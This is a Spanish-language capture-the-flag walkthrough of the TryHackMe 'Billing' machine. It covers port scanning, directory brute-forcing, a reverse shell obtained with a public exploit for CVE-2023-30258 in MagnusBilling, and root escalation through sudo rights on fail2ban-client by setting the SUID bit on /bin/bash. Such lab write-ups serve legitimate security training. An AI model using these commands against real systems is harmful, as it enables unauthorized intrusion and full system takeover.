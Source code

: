 ```yaml
---
description: '✍️ Autor: tryhackme, RunasRs 🔍 Dificultad: Fácil'
---
```


# Billing

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.118.35
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap 10.10.118.35
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo el puerto **22** perteneciente al servicio **SSH,** el puerto **80** perteneciente al servicio **HTTP** y el puerto **3306** perteneciente a **MySQL** están abiertos, por lo que se procederá a indagar más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,3306 -v 10.10.118.35
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-20 213144.png" alt=""><figcaption></figcaption></figure>

Es un panel de **MagnusBilling** por lo que ahora haremos un escaneo de directorios por si hay algo relevante.

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,htm,php,txt,xml,js -u http://10.10.118.35
```

Encontramos un directorio interesante donde nos menciona la versión y así poder encontrar vulnerabilidad.&#x20;

<div><figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure> <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-20 215053.png" alt=""><figcaption></figcaption></figure></div>

### 🚀 **EXPLOTACIÓN**

{% @github-files/github-code-block url="https://github.com/tinashelorenzi/CVE-2023-30258-magnus-billing-v7-exploit" %}

```
git clone https://github.com/tinashelorenzi/CVE-2023-30258-magnus-billing-v7-exploit.git
cd CVE-2023-30258-magnus-billing-v7-exploit
```

Realizamos la Reverse Shell.

```
nc -nlvp 4444
python3 exploit.py -t 10.10.118.35 -a 10.8.146.101 -p 4444
```

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos tratamiento de la TTY.

```
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Tenemos permiso sudo del binario **fail2ban-client**.

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-client-privilege-escalation/" %}

```bash
sudo /usr/bin/fail2ban-client status
sudo /usr/bin/fail2ban-client get ast-cli-attck actions
sudo /usr/bin/fail2ban-client set ast-cli-attck addaction evil
sudo /usr/bin/fail2ban-client set ast-cli-attck action evil actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set ast-cli-attck banip 1.2.3.5
/bin/bash -p
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
